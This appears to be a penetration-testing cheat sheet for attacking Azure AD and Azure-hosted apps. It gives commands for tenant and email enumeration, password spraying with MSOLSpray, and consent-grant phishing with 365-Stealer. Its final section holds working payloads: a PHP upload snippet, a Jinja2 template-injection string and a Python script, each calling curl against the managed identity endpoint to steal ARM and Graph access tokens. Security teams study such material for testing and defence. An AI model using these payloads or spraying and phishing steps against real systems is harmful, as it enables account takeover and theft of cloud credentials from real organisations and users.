




# Recon and Initial Access

## Check if AzureAD is in use

### Manual

We can know if a enterprise is using Azure and has its own tenant querying several Microsoft services:

Knowing if the enterprise has an AAD:

```bash
http https://login.microsoftonline.com/getuserrealm.srf?login={{ Username user@domain.com }}&json=1 --body
```

An example output would be:

```json
{
    "CloudInstanceIssuerUri": "urn:federation:MicrosoftOnline",
    "CloudInstanceName": "microsoftonline.com",
    "DomainName": "rai.usc.es",
    "FederationBrandName": "Universidade de Santiago de Compostela",
    "Login": "user@rai.usc.es",
    "NameSpaceType": "Managed",
    "State": 4,
    "UserState": 1
}
```

Get Tenant ID

```bash
http https://login.microsoftonline.com/{{ Domain domain.com }}/.well-known/openid-configuration --body
```

The tenant ID can be found in many places inside the json returned

```json
{
    "authorization_endpoint": "https://login.microsoftonline.com/{TenantID}/oauth2/authorize",
    [...]
}
```

Check if email is valid

```bash
http POST https://login.microsoftonline.com/common/GetCredentialType Username="{{ Username user@domain.com }}" | jq '.IfExistsResult'
```

Response Codes
* 1 - User Does Not Exist on Azure as Identity Provider
* 0 - Account exists for domain using Azure as Identity Provider
* 5 - Account exists but uses different IdP other than Microsoft
* 6 - Account exists and is setup to use the domain and an IdP other than Microsoft

### [AADInternals](https://github.com/Gerenios/AADInternals)

> Note: This module only works in Windows (arm64 supported)

```bash
Install-Module AADInternals -Scope CurrentUser
Import-Module AADInternals
```

Get Tenant information, name, type...

```powershell
Get-AADIntLoginInformation -UserName {{ Username root@domain.com }}
```

Get Tenant Id

```powershell
Get-AADIntTenantID -Domain {{ Domain domain.com }}
```

Get Tentant domains

```powershell
Get-AADIntTenantDomains -Domain {{ Domain domain.com }}
```

Get all the information 

```powershell
Invoke-AADIntReconAsOutsider -DomainName {{ Domain domain.com }}
```

### [Microburst](https://github.com/NetSPI/MicroBurst)

MicroBurst includes functions and scripts that support Azure Services discovery, weak configuration auditing, and post exploitation actions such as credential dumping. It is intended to be used during penetration tests where Azure is in use.

> Note: This module requires windows becaus it uses AzureAD module which only supports Windows. You can try to run it using AzureADPreview but beware of possible errors

Installation:

```powershell
# Install-Module -Name Az -Scope CurrentUser -Repository PSGallery -Force
# Install-Module -Name AzureAD -Scope CurrentUser -Repository PSGallery -Force
# Install-Module -Name MSOnline -Scope CurrentUser -Repository PSGallery -Force
git clone https://github.com/NetSPI/MicroBurst
cd MicroBurst
Import-Module .\Microburst.psm1 # Takes a moment
```

Enumerate all subdomains for an organization

```powershell
Invoke-EnumerateAzureSubDomains -Base {{ Domain domain.com }} -Verbose
```

## Password spraying

Although this method is not recommended in production or a real assessment it is used in real world scenarios so we'll cover it here.

There are countless tools that can perform this, one of the most known ones is [MSOLSpray](https://github.com/dafthack/MSOLSpray)

```powershell
git clone https://github.com/dafthack/MSOLSpray
cd MSOLSpray
Import-Module ./MSOLSpray.ps1
```

You can check valid emails using this fancy oneliner

```powershell
cat ../emails.txt | %{
    http POST https://login.microsoftonline.com/common/GetCredentialType Username="$_" | jq -r 'select(.IfExistsResult!=1) | .Username'
}
```

Password spraying can be performed using the following command:

```powershell
Invoke-MSOLSpray -UserList ..\emails.txt -Password '{{ Password password }}' -Verbose
```

## O365 Illicit Consent Grant Phishing

First if possible we can check if users can delegate permissions

```powershell
(Get-AzureADMSAuthorizationPolicy).permissionGrantPolicyIdsAssignedToDefaultUserRole
# Expected result: ManagePermissionGrantsForSelf.microsoft-user-default-legacy
```

Then we need to create an application that has 'API permissions'; for a initial intrusion the following permissions would be enough:

* User.ReadBasic.All for Microsoft Graph
* user.read for Microsoft Graph

  

If we select some privileged permissions only privileged users will be able to log in into our application

After that it will be needed to create a secret and note both the secret and the application (client) ID:



For phishing we will use [365-Stealer](https://github.com/AlteredSecurity/365-Stealer) but there are other tools that can perform the same attack



The redirect_url of the application need to be configured to the known public ip of the server that will run the tool

Then, by clicking in run it will show a phishing link. When the user visits the link and allows access to its resources it will be redirected to the url and the token will be stole.

If the target user is admin, more permissions can be requested 



With that permissions we should be able to upload files to the onedrive, read outlook mails and perform other high privileged operations

## Pwning Azure Applications 

### Unrestricted php upload

Usually there are several environment variables that always exists in Azure machines; for example:

* IDENTITY_HEADER
* IDENTITY_ENDPOINT

The environment variables can be found by executing commands or reading files

```
env
printenv
cat /proc/self/environ
```

If we can execute code and access its variables it would be possible to request a Token for the machines

```php
<?php 
// Requesting token for ARM
system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');
?>
```

### SSTI

Usually it is possible to elevate template injection to remote code execution as well

The following is a Jinja2 example

```jinja

    
        {{x('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com&api-version=2017-09-01" -H secret:$IDENTITY_HEADER',shell=True,stdout=-1).communicate()}}
    

```

### Remote command execution

As always when we have code execution it will be possible to generate a token

```python
import os
import json

IDENTITY_ENDPOINT = os.environ['IDENTITY_ENDPOINT']
IDENTITY_HEADER = os.environ['IDENTITY_HEADER']

cmd = 'curl "%s?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)

val = os.popen(cmd).read()

print("[+] Management API")
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID: "+json.loads(val)["client_id"])

cmd = 'curl "%s?resource=https://graph.microsoft.com/&api-version=2017-09-01" -H secret:%s' % (IDENTITY_ENDPOINT, IDENTITY_HEADER)

val = os.popen(cmd).read()
print("\r\n[+] Graph API")
print("Access Token: "+json.loads(val)["access_token"])
print("ClientID: "+json.loads(val)["client_id"])
```